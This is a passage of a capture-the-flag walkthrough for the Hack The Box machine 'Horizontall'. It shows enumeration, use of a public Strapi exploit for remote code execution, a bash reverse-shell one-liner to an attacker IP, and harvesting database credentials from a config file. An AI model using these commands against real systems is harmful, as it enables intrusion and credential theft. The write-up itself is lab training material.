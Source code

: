 [Horizontall](https://app.hackthebox.com/machines/Horizontall)

First, nmap scan top ports:
`nmap -sV -sC --top-ports 1000 -o nmap-top-ports $MACHINE`
Then, scan all ports in bg.

SSH and HTTP open.

Add `horizontall.htb` to `/etc/hosts`

`gobuster dir` scan yields no useful results.

However, by digging through the source, we can find a link to `js/app.c68eb462.js`.
There we can find a subdomain, `http://api-prod.horizontall.htb/reviews`

It can also be found using `gobuster vhost` scan.

`gobuster dir` there yields some results:
```
/admin                (Status: 200) [Size: 854]
/Admin                (Status: 200) [Size: 854]
/users                (Status: 403) [Size: 60] 
/reviews              (Status: 200) [Size: 507]
/.                    (Status: 200) [Size: 413]
/ADMIN                (Status: 200) [Size: 854]
/Users                (Status: 403) [Size: 60] 
/Reviews              (Status: 200) [Size: 507]
```

On the `admin` page, we can find that `Strapi` framework is used,
as well as those suspicious comments:

![](strapi.png)
![](assets/comments.png)

In the second file, we find that `strapi` version is `3.0.0-beta.17.4`. It can also be
checked in `/admin/init`.

On Google we can find [this exploit](https://www.exploit-db.com/exploits/50239) and the
code to use it. If we just run it it turns out it works, and sets for us new credentials:
`admin@horizontall.htb` with password `SuperStrongPassword1`

It also creates a terminal for us with enabled RCE. We can use this to gain reverse shell:
`bash -c 'bash -i >& /dev/tcp/10.10.14.3/4242 0>&1'`

We are user `strapi`, but we can get user flag from user `developer`.

Now we'd like to somehow become `developer`.

We can `grep` for `password` in `/opt/strapi/myapi/config` and get credentials `developer:#J!:F9Zt2u` in `./environments/development/database.json`.
Unfortunately, they don't seem to work for SSH/logging in as this user.

We can, however, login to local `mysql` server: `mysql -u developer -h 127.0.0.1 -p`

There doesn't seem to be anything interesting though.

We can check open ports using `netstat -tulpn`. Other than the `mySQL,http, ssh` ports, there are 2 other interesting ports:
```
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1829/node /usr/bin/ 
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -
```
